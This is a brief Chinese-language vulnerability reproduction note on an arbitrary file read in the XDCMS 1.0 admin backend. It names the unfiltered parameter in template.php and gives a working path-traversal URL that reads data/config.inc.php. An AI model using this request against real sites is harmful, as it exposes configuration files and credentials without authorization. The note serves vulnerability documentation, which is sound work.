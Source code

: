 ```yaml
---
title: XDCMS 1.0 后台任意文件读取
id: zhfly3276
---
```


# XDCMS 1.0 后台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![image](../img/ced7418c2d9685d6d7b5d4c0e809a470.png)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

```
http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php 
```

后台任意文件读取。

![image](../img/1673cce9c0c4275cd3e54abc181cb3fa.png)
